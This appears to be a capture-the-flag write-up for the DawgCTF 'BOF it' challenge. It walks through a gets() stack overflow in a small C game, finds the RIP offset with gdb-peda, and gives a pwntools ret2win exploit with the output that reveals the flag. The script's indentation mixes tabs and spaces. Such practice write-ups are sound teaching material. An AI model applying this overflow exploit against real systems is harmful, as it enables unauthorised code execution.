

## Analysis 


#### Binary

* Checksec

  ```bash
  [*] '/home/kali/Desktop/aaa/bofitFolder/bofit'
      Arch:     amd64-64-little
      RELRO:    Partial RELRO
      Stack:    No canary found
      NX:       NX disabled
      PIE:      No PIE (0x400000)
      RWX:      Has RWX segments
  ```

  > No security is enabled 

* File

  ```bash
  ./bofit: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=599c2754819e660a71375162cc1cefb212ab8f16, for GNU/Linux 3.2.0, not stripped
  ```

  > 64 bit LSB(Little endian) executable


#### Source code

```c++
#include <stdio.h>
#include <stdbool.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <unistd.h>

void win_game(){
	char buf[100]; //allocate buff to 100
	FILE* fptr = fopen("flag.txt", "r"); //open flag.txt
	fgets(buf, 100, fptr); //read flag
	printf("%s", buf); //print
}

int play_game(){
	char c; 
	char input[20]; //allocate 20 chars to user input 
	int choice;
	bool correct = true; 
	int score = 0;
	srand(time(0));
	while(correct){ //loop breaks when correct become false
		choice = rand() % 4; //choice become the output of random number division
		switch(choice){ //switching through choice
			case 0:
				printf("BOF it!\n");
				c = getchar(); //reading userinput as c
				if(c != 'B') correct = false; //if userinput not 'B' loop breaks
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 1: //same as 0th case
				printf("Pull it!\n");
				c = getchar();
				if(c != 'P') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 2: //same as 0th case
				printf("Twist it!\n");
				c = getchar();
				if(c != 'T') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 3: 
				printf("Shout it!\n");
				gets(input); //read user input using gets [read manual of gets()]
				if(strlen(input) < 10) correct = false; //if length if input < 10 loop breaks using correct set to false
				break; //break the condition
		}
		score++; //score + 1
	}
	return score; //return score
}

void welcome(){
	char input;
	printf("Welcome to BOF it! The game featuring 4 hilarious commands to keep players on their toes\n");
	printf("You'll have a second to respond to a series of commands\n");
	printf("BOF it: Reply with a capital \'B\'\n");
	printf("Pull it: Reply with a capital \'P\'\n");
	printf("Twist it: Reply with a capital \'T\'\n");
	printf("Shout it: Reply with a string of at least 10 characters\n");
	printf("BOF it to start!\n"); 
	input = getchar(); // reading userinput 
	while(input != 'B'){ // loop breaks when input become 'B'
		printf("BOF it to start!\n");
		input = getchar();
	}
	while((input = getchar()) != '\n' && input != EOF); //mapping input till new line indicator
}

int main(){
	int score = 0; // initilize score 0
	welcome(); // start welcome function
	score = play_game(); //start play game function
	printf("Congrats! Final score: %d\n", score); //printing final score
	return 0;
}
```


**Our Aim**

> - Loop through switch statements in play_game() function
> - Execute case 3 (Shout it) statement in play_game() function
> - Overflow input buffer
> - Control Instruction Pointer register (RIP)
> -  Navigate win_game() function
> - Return back to the program to execute win_game()


## Lets Do it


- **Finding Offset**

  *Create patten using **gdb peda***

  *Running binary using **gdb peda***

  *Reach until **Shout it** and input our created pattern* 

  *Exit or return the program using invalid input*

  ```bash
  └─$ gdb ./bofit -q                                                                                                                                                    
  Reading symbols from ./bofit...                                                                                                                                       
  (No debugging symbols found in ./bofit)                                                                                                                               
  gdb-peda$ pattern_create 80                                                                                                                                           
  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
  gdb-peda$ r                                                                        
  Starting program: /home/kali/Desktop/aaa/bofitFolder/bofit          
  Welcome to BOF it! The game featuring 4 hilarious commands to keep players on their toes
  You'll have a second to respond to a series of commands                            
  BOF it: Reply with a capital 'B'                                                   
  Pull it: Reply with a capital 'P'                                                  
  Twist it: Reply with a capital 'T'
  Shout it: Reply with a string of at least 10 characters
  BOF it to start!
  B
  BOF it!
  B
  Shout it!
  AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A
  Pull it!
  X
  
  Program received signal SIGSEGV, Segmentation fault.
  ......
  ......
  ......
  Legend: code, data, rodata, value
  Stopped reason: SIGSEGV
  0x0000000041416341 in ?? ()
  gdb-peda$ pattern_search 
  Registers contain pattern buffer:
  RBP+0 found at offset: 48
  RIP+0 found at offset: 56
  Registers point to pattern buffer:
  [RDX] --> offset 2 - size ~60
  Pattern buffer found at:
  0x004056b2 : offset    2 - size   58 ([heap])
  0x00007fffffffdc90 : offset   28 - size   16 ($sp + -0x2f0 [-188 dwords])
  0x00007fffffffdf40 : offset    0 - size   35 ($sp + -0x40 [-16 dwords])
  0x00007fffffffdf69 : offset   41 - size    6 ($sp + -0x17 [-6 dwords])
  0x00007fffffffdf70 : offset   48 - size   12 ($sp + -0x10 [-4 dwords])
  References to pattern buffer found at:
  0x00007ffff7fae988 : 0x004056b2 (/usr/lib/x86_64-linux-gnu/libc-2.31.so)
  0x00007ffff7fae990 : 0x004056b2 (/usr/lib/x86_64-linux-gnu/libc-2.31.so)
  0x00007fffffffdb80 : 0x00007fffffffdf40 ($sp + -0x400 [-256 dwords])
  0x00007fffffffdba0 : 0x00007fffffffdf40 ($sp + -0x3e0 [-248 dwords])
  0x00007fffffffdba8 : 0x00007fffffffdf40 ($sp + -0x3d8 [-246 dwords])
  0x00007fffffffdb20 : 0x00007fffffffdf70 ($sp + -0x460 [-280 dwords])
  0x00007fffffffdb60 : 0x00007fffffffdf70 ($sp + -0x420 [-264 dwords])
  0x00007fffffffdf28 : 0x00007fffffffdf70 ($sp + -0x58 [-22 dwords])
  ```

  

  So padding is **56**

  

- **Creating exploit**

  > After 56th letter i can able to overwrite **RIP**
  >
  > FInd the memory address of *win_game()* function
  >
  > Exploit

```python
from pwn import *

#reading the binary
file = ELF('./bofit')

## running the local binary
# process =  file.process()

#connecting the server
process = remote('umbccd.io', 4100)

#searching for first user input
process.recvuntil('BOF it to start!')
process.sendline('B') #sending letters

#finding location of win_game function
win_game = file.symbols['win_game']

#convert to 64 bit address
address = p64(win_game)

log.info('win_game : {0}'.format(win_game)) #logging info

#creating payload
payload = b'A'*56+address #(56 A + win_game address)


data = process.recvuntil('\n')
# loop begins
while True:
	
	data = process.recvuntil('\n')
	data = data.decode('utf-8') #Convert to utf8 text
	
    #playing game 
    if 'BOF it' in data: 
		log.info('BOFing')
		process.sendline('B')
	elif 'Pull it' in data:
		log.info('Pulling')
		process.sendline('P')
	elif 'Twist it' in data:
		log.info('Twisting')
		process.sendline('T')
	elif 'Shout it' in data: #exploit section
		log.info('Sending payload')
		# sending payloads
        process.sendline(payload)
        
		log.info('Exploiting...')
        #recieving next game section
        #returns happening here
		data = process.recvuntil('\n') 
		process.sendline('X') #sending errot value to return the program
		log.success('Reading Flag')
		process.interactive()
```


#### Output

```php
[*] '/home/kali/Desktop/aaa/bofitFolder/bofit'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to umbccd.io on port 4100: Done
[*] win_game : 4198998
[*] Twisting
[*] Sending payload
[*] Exploiting...
[+] Reading Flag
[*] Switching to interactive mode
DawgCTF{n3w_h1gh_sc0r3!!}
[*] Got EOF while reading in interactive
```

